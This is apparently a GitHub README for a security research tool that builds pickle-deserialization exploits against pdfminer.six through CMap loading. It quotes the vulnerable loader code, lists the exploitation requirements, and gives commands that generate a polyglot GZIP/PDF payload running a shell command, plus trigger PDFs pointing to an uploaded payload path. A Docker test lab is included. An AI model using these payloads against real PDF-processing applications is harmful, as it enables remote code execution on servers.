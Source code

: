 # Pdfminer CMap Generator

A security research toolkit for analyzing pickle deserialization vulnerabilities in pdfminer.six through CMap resource loading mechanisms.

## Vulnerability Summary

**Background**

- pdfminer.six <= ALL（Until 2025.10.27）

**Exploitation Requirements:**

- Malicious PDF and GZIP upload capability
- Application process PDF with pdfminer.six
- Attacker-controlled `.pickle.gz` file accessible at predictable path
- Knowledge of target filesystem structure

## Technical Details

**Vulnerability Forms:**

1. ToUnicode usecmap
   - Works with any font type (Type0/Type1/TrueType)
   - Uses `/ToUnicode` stream with `usecmap` instruction referencing absolute path to `.pickle.gz` file
2. Type0 Font Encoding
   - Requires Type0 font with `/Encoding` field containing absolute path to `.pickle.gz` file
3. XObject Path Traversal
   - Limited impact due to forced file extensions

The vulnerability of CMapDB lies in `pdfminer/cmapdb.py:33`:

```
def _load_data(cls, name: str) -> Any:
    name = name.replace("\0", "")
    filename = "%s.pickle.gz" % name
    for directory in cmap_paths:
        path = os.path.join(directory, filename)
        if os.path.exists(path):
            gzfile = gzip.open(path)
            return type(str(name), (), pickle.loads(gzfile.read()))
```

Complete call chains and technical analysis available in:

- [English Research Document](https://github.com/L1nq0/Pdfminer-CMap-Generator/blob/master/research/Pdfminer-Vulnerability-Research_EN.md)
- [Chinese Research Document](https://github.com/L1nq0/Pdfminer-CMap-Generator/blob/master/research/Pdfminer-Vulnerability-Research.md)

## Usage

### Installation

```
cd src/ && pip install -r requirements.txt
```

### Generating Polyglot GZIP/PDF Payload

```
python src/pcg.py build -t gzip -p "echo 123 > 1.txt"
```

### Generating Trigger PDF

```
python src/pcg.py build -t pdf -ptt encoding -ep "/proc/self/cwd/uploads/payload"
python src/pcg.py build -t pdf -ptt traversal -ep "/proc/self/cwd/uploads/payload"
```

## Environment

Docker testing environment is provided in `research/lab/pdf2text_debug/`

```
cd research/lab/pdf2text_debug
docker-compose up --build

# Access at http://localhost:11452
# Debug endpoints: /_dbg/trace, /_dbg/openlog, /_dbg/head
```

The environment includes:

- Flask application with PDF upload endpoint
- Monkey-patched `pickle.loads()` for deserialization logging

## References

https://github.com/un1novvn

https://github.com/pdfminer/pdfminer.six

https://blog.wm-team.cn/index.php/archives/86/

https://www.cnblogs.com/L1nq/p/19124085
